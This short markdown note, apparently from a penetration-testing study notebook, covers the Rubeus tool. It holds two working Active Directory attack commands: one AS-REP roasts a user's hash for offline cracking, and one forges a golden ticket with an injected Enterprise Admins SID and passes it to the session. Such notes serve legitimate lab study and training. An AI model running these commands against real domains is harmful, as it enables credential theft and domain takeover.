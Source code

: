 # Rubeus

## Sources
- Github


[ASREP Roasting](../../env/active-directory/attacks/ASREP Roasting)
```powershell-session
Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

[[../env/active-directory/attacks/ExtraSIDs]]

```powershell-session
Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```
